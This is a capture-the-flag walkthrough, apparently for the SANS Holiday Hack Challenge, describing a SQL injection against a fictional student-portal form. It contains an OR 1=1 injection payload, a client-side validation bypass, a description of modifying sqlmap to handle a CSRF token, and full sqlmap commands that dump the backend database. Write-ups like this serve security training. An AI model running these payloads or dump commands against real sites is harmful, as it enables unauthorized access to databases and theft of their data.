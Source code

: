 # 9) Retrieve Scraps of Paper from Server

## Prompt

## Secondary Prompt from Krampus (learned this after solving haha)
You did it! Thank you so much. I can trust you!
To help you, I have flashed the firmware in your badge to unlock a useful new feature: magical teleportation through the steam tunnels.
As for those scraps of paper, I scanned those and put the images on my server.
I then threw the paper away.
Unfortunately, I managed to lock out my account on the server.
Hey! You’ve got some great skills. Would you please hack into my system and retrieve the scans?
I give you permission to hack into it, solving Objective 9 in your badge.
And, as long as you're traveling around, be sure to solve any other challenges you happen across.
## Solve Process
This one sends us to a website... which probably has an injection vuln.
Let's see!
1. Check application status sounds odd, let's focus on that field.
1. Let's try "a@a.com" -> application status is pending (good, someone already registered for us haha 😉)
1. Let's try:
    ```SQL
    a@a.com' OR 1=1;-- -
    ```
    and we get an error message that the email field can't contain ' in it.
    So... let's change the html (cause I'm lazy and just want to fingerprint) to be a text post instead of an email post so the browser doesn't validate it for us:
    ```html
    <input name="elfmail" type="email" id="inputEmail" class="form-control form-control-lg" placeholder="Email address" required="" autofocus="">
    ```
    becomes
    ```html
    <input name="elfmail" type="text" id="inputEmail" class="form-control form-control-lg" placeholder="Email address" required="" autofocus="">
    ```
1. Now let's try inputting "a@a.com' OR 1=1;-- -"

    Result: no error (good!)

1. Now let's fingerprint. http://www.sqlinjection.net/database-fingerprinting/ has some good tips, let's try:
    ```SQL
    a' '@a.com
    ```
    and we get an error message! Bingo!
    ```
    Error: SELECT status FROM applications WHERE elfmail = ''a' '@a.com'';
    You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'a' '@a.com''' at line 1
    ```
    This is good as we're not flying blind here now. We've now identified the SQL version used (MariaDB) as well as the table name "status" and column name "applications" and variable name "elfmail" which is pretty significant.

    *Skipping rabbit holes, look at the idiotic readme for more ;)*

    ...We see that the html calls:
    ```javascript
    function submitApplication() {
      console.log("Submitting");
      elfSign();
      document.getElementById("check").submit();
    }
    function elfSign() {
      var s = document.getElementById("token");

      const Http = new XMLHttpRequest();
      const url='/validator.php';
      Http.open("GET", url, false);
      Http.send(null);

      if (Http.status === 200) {
        console.log(Http.responseText);
        s.value = Http.responseText;
      }

    }
    ```
    first!
    Let's modify the csrf validation portion of SQLMap cause that will tie in nicely with the script and we won't have to change much else. The CSRF should instead download the validator.php page and spit it out as the variable. That should be pretty simple.
    Doing some OSINT we find that https://github.com/sqlmapproject/sqlmap/commit/780dbd1c64690726eed291e77f9a2fc12d230610 implements the CSRF check, so we can search the repo for conf.csrfToken and find that it gets set in https://github.com/sqlmapproject/sqlmap/blob/7dae324ed6ca4b7a49c4f6d3a9d0c83925a87614/lib/request/connect.py
    Let's **modify the SQLMap code** (* code changes not included here due to weirdities with the GPL license) to do a post to grab the validator.php page first and then convert it to a csrf token.

    ***we interrupt this walkthrough for a PSA***: *Always check if the request is GET or POST. **In this case it was a GET request.***

    Now that we've modified the code SQLMap is happily running with the following command:
    ```powershell
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still'
    ```
    That query is taking some time, so let's kill it after it finds its first exploit. Then, we can run the following commands:
    ```powershell
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --dbs
    # lists elfu and information_schema
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --tables -D elfu
    # lists krampus, applications, and students
    python sqlmap.py -u 'https://studentportal.elfu.org/application-check.php?elfmail=a&token=a' --method GET -p elfmail --dbms "MySQL" --prefix="a@a.com' " --csrf-url='https://studentportal.elfu.org/validator.php' --csrf-token='token' --time-sec=10 --string='still' --dump -D elfu -T krampus
    # dumps 6 picture URLs:
    1,/krampus/0f5f510e.png
    2,/krampus/1cc7e121.png
    3,/krampus/439f15e6.png
    4,/krampus/667d6896.png
    5,/krampus/adb798ca.png
    6,/krampus/ba417715.png
    ```
1. Piecing together the images, we find the message contains:
    ```
    From the Desk of <unreadable>

    Date: August 23, 20<unreadable>

    Memo to Self:

    Finally! I've figured out how to destroy Christmas!
    Santa has a brand new, cutting edge sleigh guidance
    technology, called the Super Sled-o-matic.

    I've figured out a way to poison the data going into the
    system so that it will divert Santa's sled on Christmas
    Eve!

    Santa will be unable to make the trip and the holiday
    season will be destroyed! Santa's own technology will
    undermine him!

    That's what they deserve for not listening to my
    suggestions for supporting other holiday characters!

    Bwahahahahaha!
    ```
1. This gives us the answer, "Super Sled-o-matic"
1. Now that we've solved 8, Krampus now gives us another prompt:
    ```
    Wow! We’ve uncovered quite a nasty plot to destroy the holiday season.
    We’ve gotta stop whomever is behind it!
    I managed to find this protected document on one of the compromised machines in our environment.
    I think our attacker was in the process of exfiltrating it.
    I’m convinced that it is somehow associated with the plan to destroy the holidays. Can you decrypt it?
    There are some smart people in the NetWars challenge room who may be able to help us.
    ```